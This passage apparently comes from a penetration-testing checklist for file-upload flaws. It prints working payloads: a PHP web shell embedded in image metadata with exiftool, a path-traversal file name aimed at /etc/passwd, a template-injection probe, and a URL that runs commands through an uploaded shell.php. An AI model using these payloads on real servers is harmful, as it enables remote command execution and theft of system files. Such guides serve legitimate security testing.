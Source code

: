  * Test Image Files for Exploits:
   Use tools like ExifTool to embed malicious payloads in metadata. 

    - Example:
        PayLoad: ```exiftool -Comment='<?php system($_GET["cmd"]); ?>' test.jpg```

 __7. Test File Path Manipulation__

 * Upload File with Path Traversal:

     PayLoad: ```File name: ../../../../etc/passwd```

     ---Attempt to overwrite sensitive files or place the file in unintended directories.

 __8. Check for Template Injection__    

 * Upload files with template payloads for engines like Jinja2 or Twig:

     -  File content: {{7*7}}.
     -  Observe if the server renders this as 49.

 __9. Exploit File Inclusion Vulnerabilities__  
 If the application has a file inclusion vulnerability, upload a file and exploit it:  

 *  Example:
        Upload shell.php and access it via:

     PayLoad: ```http://example.com/uploads/shell.php?cmd=id```

 __10. Automate Testing__

  * Use tools like Burp Suite's Upload Scanner plugin to test various upload-related vulnerabilities.
  * Use OWASP ZAP with customized payloads. 
  
     

